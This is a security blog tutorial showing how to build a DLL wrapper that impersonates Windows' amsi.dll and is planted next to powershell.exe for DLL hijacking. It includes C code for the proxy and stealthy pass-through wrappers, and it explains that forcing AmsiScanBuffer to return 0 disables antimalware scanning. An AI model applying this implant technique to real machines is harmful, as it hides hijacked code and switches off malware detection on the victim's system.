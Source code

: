 ```yaml
---
title: Manual DLL-Wrapping technique (AMSI DLL-Implant)
createdAt: 08/05/2024
---
```


**TLDR**: [Repository with final AMSI Dll-Implant](https://github.com/Print3M/amsi-dll-wrapper)

## Standard DLL-Proxy using for DLL Hijacking

Many tutorials show the easiest methods to implement DLL-Wrapper (or maybe I should call it DLL-Proxy) using the following syntax:

```c
#pragma comment(linker, "/export:exportedFunc=legitDll.exportedFunc")
```

This actually exports a legitimate function (`exportedFunc`) from our custom DLL. The problem is that this way we have no actual control over the function. Usually in the case of standard DLL hijacking it looks like this:

```c
#include "pch.h"

// Exported legit functions
#pragma comment(linker, "/export:exampleFunc1=legitDll.exampleFunc1")
#pragma comment(linker, "/export:exampleFunc2=legitDll.exampleFunc2")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  reason, LPVOID lpReserved)
{
    if (reason == DLL_PROCESS_ATTACH) {
        /* MALICIOUS CODE HERE */
    }

    return TRUE;
}
```

As we can see above, our action is performed only when the DLL is loaded. We have no direct control over the functions we export. But I want to control the execution of these functions - the incoming parameters and the returned values. I want to add my own DLL-implant. This can come in handy for **more stealthy DLL-Hijacking tactics**, or for conveniently manipulating module parameters to get a better idea of what is going on.

It can also be a way to bypass certain security features as in the case of AMSI. By controlling the `AmsiScanBuffer()` function from `amsi.dll` we are able to return `0` every time and effectively disable AMSI checks. See [my previous post](/blog/amsi-memory-patching-bypass) for a better understanding of this concept.

So how can we do it? Well, we can create functions in our custom `fake-amsi.dll` DLL module, whose names and parameters will coincide with those of the legit `amsi.dll`. Let's see what is exported from `amsi.dll` using PE-bear program:

![PE-bear screenshot: exported functions of amsi.dll](/imgs/amsi-dll-wrapper/1.png)

Here we see the names of the functions we need to export from our DLL module. We also need to know what parameters these functions expect. This is what we can find out from the Microsoft documentation: [amsi.h header](https://learn.microsoft.com/en-us/windows/win32/api/amsi/).  

> I thought that when writing my own wrapper-functions, in addition to the name and parameters of functions, I also need to keep the calling convention in sync with the legit DLL. It turned out that with x86-64 architecture Microsoft uses only one calling convention. Basically all calling conventions (e.g. stdcall, thiscall, cdecl, and fastcall) resolve to using this _one ultimate convention_. Special keywords like `__fastcall` are simply ignored by compiler. [Read more here](https://en.wikipedia.org/wiki/X86_calling_conventions#Microsoft_x64_calling_convention).

Now we have everything to start implementing our DLL wrapper. First we load legit-amsi.dll using the absolute path, then we get the addresses of the functions we want to wrap.

```c
void DllInit() {
    // Load legit-AMSI module
    HMODULE hAmsiDll = LoadLibraryA("C:\\Windows\\System32\\amsi.dll");
    
    // Get addresses of legit-AMSI functions
    pAmsiInitialize = (AmsiInitializeT)GetProcAddress(hAmsiDll, "AmsiInitialize");
    pAmsiOpenSession = (AmsiOpenSessionT)GetProcAddress(hAmsiDll, "AmsiOpenSession");
    pAmsiCloseSession = (AmsiCloseSessionT)GetProcAddress(hAmsiDll, "AmsiCloseSession");
    pAmsiScanBuffer = (AmsiScanBufferT)GetProcAddress(hAmsiDll, "AmsiScanBuffer");
    pAmsiScanString = (AmsiScanStringT)GetProcAddress(hAmsiDll, "AmsiScanString");
    pAmsiUninitialize = (AmsiUninitializeT)GetProcAddress(hAmsiDll, "AmsiUninitialize");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID lpReserved)
{
    if (reason == DLL_PROCESS_ATTACH) {
        // Load legit-AMSI when DLL is attached
        DllInit();
        printf("[+] Custom AMSI.DLL loaded\n");
    }

    return TRUE;
}
```

Then we create wrappers for each function according to the scheme below. It's best to make a wrapper for each function to make sure that everything will work flawlessly and no one will realize that it's just a wrapper for a legitimate DLL.

> I write in C++, so `extern "C"` is used to avoid default name mangling of exported functions. `__declspec(dllexport)` is used to export a function from our DLL file.

```c
// Type of AmsiInitialize function pointer
typedef HRESULT(*AmsiInitializeT)(LPCWSTR, HAMSICONTEXT*);

// AmsiInitialize function pointer
AmsiInitializeT pAmsiInitialize;

// AmsiInitialize function wrapper
extern "C" __declspec(dllexport) HRESULT AmsiInitialize(LPCWSTR appName, HAMSICONTEXT * amsiContext) {
    /*
        Here we can do whatever malicious or debug things we want.

        Then call legit AmsiInitialize function so that no one will
        realize that something has been changed 
    */
    return pAmsiInitialize(appName, amsiContext);
}
```

After compiling as a DLL file, we can see the exported functions again using PE-Bear:

![PE-bear screenshot: exported functions of custom amsi-implant.dll](/imgs/amsi-dll-wrapper/2.png)

I didn't implement literally all the functions from the original amsi.dll, but the rest proved useless, at least for my case. `powershell.exe`, like most executable binaries, looks for DLL modules in the same directory where the .exe file is located. This allows us to perform **DLL hijacking** and give him our fake `amsi.dll` implant.

![Location of amsi.dll implant in powershell.exe folder](/imgs/amsi-dll-wrapper/3.png)

The implant is ready. Of course, this is also one of the AMSI bypass techniques, because we fully control the execution of the `AmsiScanBuffer()` function, so it can always return `0` and execute any PowerShell script we want. My goal, however, was to see what exactly is sent, and what AMSI (actually Windows Defender) returns, in the case of a malicious script:

![PowerShell command-line with amsi.dll implant](/imgs/amsi-dll-wrapper/4.png)

We can see that our implant is working. It is loaded right at the start of `powershell.exe` which sends the entire PowerShell startup scripts to AMSI **without any chunking at all**. Literally every command you type, every line of PowerShell is scanned by AMSI. Now let's check what happens when AMSI detects a malicious PowerShell script.

![amsi.dll implant detects malicious PowerShell script](/imgs/amsi-dll-wrapper/5.png)

Highlighted in yellow is the result that the `ScanStringBuffer()` function returned on the malicious script. Microsoft's documentation says: _Any return result equal to or larger than 32768 is considered malware_ ([source](https://learn.microsoft.com/en-us/windows/win32/api/amsi/ne-amsi-amsi_result)). Our value is exactly `32768` which means everything works as intended. From my observations, this number (at least with the default Windows Defender) is never higher than `32768`, although it could be.

The experiment was successful. Now you know how to manually create your own wrappers for DLL modules and have full control over the execution of exported functions.

\~ Print3M
